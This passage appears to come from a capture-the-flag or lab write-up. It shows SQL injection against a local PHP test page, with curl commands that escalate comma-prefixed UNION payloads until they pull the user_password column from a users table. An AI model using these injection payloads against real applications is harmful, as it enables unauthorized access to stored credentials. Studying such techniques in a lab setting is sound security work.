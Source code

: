 The above would use `,` as the delimiter, and put all the stuff in `$selector` for unique stuff, 
So if we submit 1,2,3, the variable would contain `123.`

Testing with more `,` allows me to see the variable the query uses:

```
$ curl -G --data-urlencode "ids=,,,,,1));SELECT 1" 127.0.0.1:4444/test.php                                 
Array

,1));SELECT 1
```

There is an additional `,` in front, removing some commas work:

```
$ curl -G --data-urlencode "ids=,,1)) UNION SELECT 1--" 127.0.0.1:4444/test.php 
Array

1)) UNION SELECT 1--
```

This would pass the query correctly without commas in the front. There are 3 columns via `UNION` testing. UNION is used in this case because we are appending a query at the end so I can retrieve more data. 

`SELECT 1 UNION SELECT 2` retrieves both 1 and 2, combining the results. Need to append data to the first query. Some further testing revealed I need a third comma to make it one line:

```
$ curl -G --data-urlencode "ids=,,,1)) UNION SELECT 1,2,user_password FROM users--" 127.0.0.1:4444/test.php
Array

1)) UNION SELECT 1,2,user_password FROM users--
```

![](../../.gitbook/assets/Pasted%20image%2020240126143123.png)

